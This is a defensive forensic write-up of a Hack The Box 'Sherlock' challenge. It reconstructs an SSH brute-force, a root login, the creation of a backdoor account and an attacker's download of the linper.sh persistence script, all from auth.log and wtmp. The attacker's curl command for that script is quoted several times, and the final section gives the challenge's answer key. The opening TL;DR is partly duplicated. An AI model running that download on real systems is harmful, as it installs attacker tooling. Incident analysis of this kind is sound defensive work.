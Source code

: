 # Writeup: HTB — Sherlock (SSH brute-force / Confluence)

> **Note:** All timestamps are in UTC. Logs analyzed: `auth.log`, `wtmp` (parsed), and `utmp.py` helper.

---

## TL;DR

The Confluence server was brute-forced from IP **65.2.161.68**, leading to a successful SSH authentication as user **root**. The attac# Writeup: HTB — Sherlock (SSH brute-force / Confluence)

> **Note:** All timestamps are in UTC. Logs analyzed: `auth.log`, `wtmp` (parsed) and `utmp.py` helper.

---

## TL;DR

The Confluence server was brute-forced from IP **65.2.161.68**, leading to a successful SSH authentication as user **root**. The attacker opened an interactive terminal session at **2024-03-06 06:32:45 UTC** (wtmp), which was assigned session number **37**. For persistence the attacker created a privileged backdoor account named **`cyberjunkie`** (MITRE ATT\&CK sub-technique **T1136.001** — Create Account: Local Accounts). The first SSH session terminated at **2024-03-06 06:37:24 UTC** according to `auth.log`. Using elevated privileges the attacker downloaded a script with the command:

```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

---

## 1. Objective

Produce a clear, reproducible analysis of the `auth.log` and `wtmp` artifacts from the HTB "sherlock" challenge. Identify the brute-force source, the compromised account, the exact login/session timeline, persistence actions and evidence of post-exploitation behavior (file downloads and commands executed).

---

## 2. Key findings (summary)

* **Attacker IP (brute-force source):** `65.2.161.68`
* **Compromised username (authentication success):** `root`
* **Manual interactive login (wtmp):** `2024-03-06 06:32:45 UTC`
* **SSH session number (assigned at login):** `37`
* **Created backdoor account (persistence):** `cyberjunkie`
* **MITRE ATT\&CK sub-technique for creating account:** `T1136.001`
* **First SSH session end (auth.log):** `2024-03-06 06:37:24 UTC`
* **Sudo command to download script:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

---

## 3. Investigation timeline (chronological)

1. **Brute-force activity** — multiple failed SSH authentication attempts detected from **65.2.161.68** (auth.log). These repeated failures indicate an automated password-guessing attempt against SSH.

2. **Successful authentication** — one authentication attempt from the same IP succeeded for the `root` account (auth.log). This indicates the brute-force achieved its goal and allowed the attacker to authenticate.

3. **Interactive session established** — the wtmp artifact shows a terminal/login session for the now-authenticated `root` account at **2024-03-06 06:32:45 UTC**. The session number recorded for that session is **37**. (Note: `wtmp` records are authoritative for session start/end times and TTY/session assignments.)

4. **Session activity and early end** — the session that began at 06:32:45 ended by **2024-03-06 06:37:24 UTC** as shown in `auth.log` entries. This first SSH session end timestamp may correspond to a logout or a session switch; however it provides a precise window of attacker interactivity.

5. **Persistence established** — within the session activity the attacker created a local account named `cyberjunkie`. Creating a local account for persistence maps to MITRE ATT\&CK **T1136.001**.

6. **Post-exploitation** — the attacker used elevated privileges to fetch an external script via `curl` (`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`), demonstrating attempts to deploy post-exploitation tooling or privilege-check scripts.

---

## 4. Evidence & analysis (artifact-level)

### 4.1 `auth.log`

* **Brute-force indicators:** repeated `Failed password` entries from `65.2.161.68`. Patterns consistent with scripted attempts (short intervals, many usernames attempted).
* **Successful auth line:** a `Accepted password` (or equivalent accepted method) for `root` from `65.2.161.68` marking the compromise.
* **Session termination:** `pam_unix(sshd:session): session closed for user root` line at `2024-03-06 06:37:24 UTC` documents the first session end.
* **Sudo/download command evidence:** `sudo` invocation lines and/or shell commands that show the use of `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` (depending on how verbose `auth.log` is on the system; in some setups `auth.log` captures `sudo` events and command arguments).

> Note: `auth.log` is primarily an authentication log but can contain sudo logs and session open/close messages (pam\_unix, systemd-logind entries) which are valuable for constructing a timeline.

### 4.2 `wtmp`

* **Interactive login time:** `last` or `utmp.py` parsed output shows session start `2024-03-06 06:32:45 UTC` for `root` with session ID `37`. This timestamp differs from the raw authentication event and represents when a TTY/PTY was allocated and a login session recorded.
* **Session numbering:** the session number `37` is the system-assigned wtmp/utmp slot for that login and is useful when correlating `last`, `who` or utmp parsing to in-log session markers.

### 4.3 `utmp.py` (parser)

* Use this helper to extract human-readable records from the `wtmp` binary and to map session numbers and start/end times to usernames and TTYs.

---

## 5. Reproducible commands & parsing hints

* Search for brute-force attempts in `auth.log`:

```bash
# show failed attempts grouped by IP
grep "Failed password" auth.log | awk '{print $(NF)}' | sort | uniq -c | sort -nr

# confirm accepted login lines (sanitized)
grep -E "Accepted|session opened|session closed" auth.log
```

* Extract `wtmp` records (example using last):

```bash
# human-readable wtmp parsing
last -f wtmp

# or use the provided utmp.py
python utmp.py wtmp | less
```

* Find sudo/download command evidence in logs (where sudo logs are enabled):

```bash
grep -i "sudo" auth.log
grep -i "curl" auth.log
```

---

## 6. Interpretation & impact

* **Initial access:** The server lacked sufficient protections (rate limiting, 2FA, or strong password enforcement) to block or slow the brute-force. The attacker successfully obtained root access — a complete system compromise.
* **Persistence:** Creation of a local privileged account (`cyberjunkie`) is a durable persistence mechanism, allowing the attacker ongoing access even if initial vectors are closed.
* **Post-exploitation tooling:** Downloading external scripts (e.g., `linper.sh`) suggests reconnaissance, privilege checks, or further exploitation attempts. Running arbitrary remote scripts as root increases the risk of complete system takeover and lateral movement.

---

## 7. Mitigations & recommendations

1. **Immediate response:** rotate credentials, remove the `cyberjunkie` account, inspect system for additional backdoors and restore from a known-good backup if compromise is confirmed.
2. **Harden SSH:** disable root login over SSH (`PermitRootLogin no`), enforce public-key authentication only and enable rate-limiting / fail2ban rules.
3. **Increase visibility:** enable `sudo` logging with `log_input`/`log_output` where appropriate and centralize logs to an immutable collector to prevent tampering.
4. **Access controls:** implement 2FA for remote access and restrict SSH to specific management IPs or via VPN.
5. **Hunt for persistence:** search for cron jobs, new SSH keys in `~/.ssh/authorized_keys` for unexpected users, new systemd units and suspicious SUID binaries.

---

## 8. Appendix — quick answers

1. **Attacker IP:** `65.2.161.68`
2. **Compromised username:** `root`
3. **Interactive login (wtmp):** `2024-03-06 06:32:45 UTC`
4. **SSH session number:** `37`
5. **Backdoor account name:** `cyberjunkie`
6. **MITRE sub-technique:** `T1136.001`
7. **First SSH session end (auth.log):** `2024-03-06 06:37:24 UTC`
8. **Sudo download command:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

---
